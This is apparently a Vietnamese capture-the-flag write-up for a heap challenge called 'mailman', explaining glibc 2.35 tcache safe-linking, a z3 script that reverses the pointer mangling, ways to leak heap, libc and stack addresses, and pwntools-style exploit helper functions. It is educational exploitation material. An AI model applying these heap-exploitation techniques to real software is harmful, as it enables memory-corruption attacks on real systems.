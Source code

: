 # mailman
- Được hướng dẫn bởi a Phú và a Quý
## Một số điều cần lưu ý ở libc 2.35
- Các chunk được malloc phải thoả điều kiện `chunk & 0xf = 0`, ví dụ 0x1230 0x23a0 thì thoả, 0x1231 không thoả
- Khi free vào tcache có một lớp bảo vệ fd pointer
```
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
- Ví dụ `tcache: chunk2 <- chunk1` ở fd pointer 2 sẽ là `(địa chỉ chunk 1) >> 12 ^ (địa chỉ chunk 2)`
- Thì để bypass được lớp bảo vệ này để leak heap thì có khá nhiều cách nhưng có 2 cách thường thấy nhất
- Cách 1 là việc ta đưa 1 chunk vào tcache mà ở đó chunk đó là chunk đầu tiên của danh sách, khi này không có chunk trước đó.`0 >> 12 ^ chunk đầu tiên = chunk đầu tiên`
- Cách 2 là khi ta không thể free một chunk vào đầu danh sách tcache khi này ta dùng z3 để tính
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()
```
- [FSOP](https://hackmd.io/@-igYKgCkR_aGfvddJjS3QA/r1W3T5aIh#2-FSOP)
- [WU-FSOP](https://ctftime.org/writeup/34812)

- Để leak được stack ta có một biến `environ trong libc`
- Để leak libc thì ta leak fd pointer của một chunk trong unsorted bin

## Khai thác
### Chuẩn bị
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()

def write(idx, size, context):
        sla(b"> ", b"1")
        sla(b": ", str(idx).encode())
        sla(b": ", str(size).encode())
        sla(b": ", context)
def free(idx):
        sla(b"> ", b"2")
        sla(b": ", str(idx).encode())
def show(idx):
        sla(b"> ", b"3")
        sla(b": ", str(idx).encode())
        value = u64(p.recvline(keepends = False).ljust(8, b"\0"))
```
